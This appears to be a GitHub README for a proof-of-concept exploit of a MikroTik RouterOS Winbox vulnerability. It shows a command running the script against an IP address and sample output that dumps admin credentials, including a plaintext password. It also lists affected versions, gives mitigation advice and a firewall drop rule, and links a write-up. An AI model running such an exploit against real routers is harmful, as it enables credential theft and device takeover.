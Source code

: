 # WinboxPoC
Proof of Concept of Winbox Critical Vulnerability

# Blogpost
https://n0p.me/winbox-bug-dissection/


## How to use
Run it :)
```
$ python3 PoC.py 172.17.17.17
172.17.17.17
User: admin
Pass:

User: admin
Pass:

User: admin
Pass: Th3P4ssWord

```
## Vulnerable versions
all versions from 6.29 (release date: 2015/28/05) to 6.42 (release date 2018/04/20) are vulnerable ..

## Mitigation Techniques
- Update your RouterOS to the last version or Bugfix version 
- Do not use Winbox and disable it :| it's nothing just a GUI for NooBs ..
- you may use some Filter Rules (ACL) to deny anonymous accesses to the Router 
```
ip firewall filter add chain=input in-interface=wan protocol=tcp dst-port=8291 action=drop
```

Enjoy!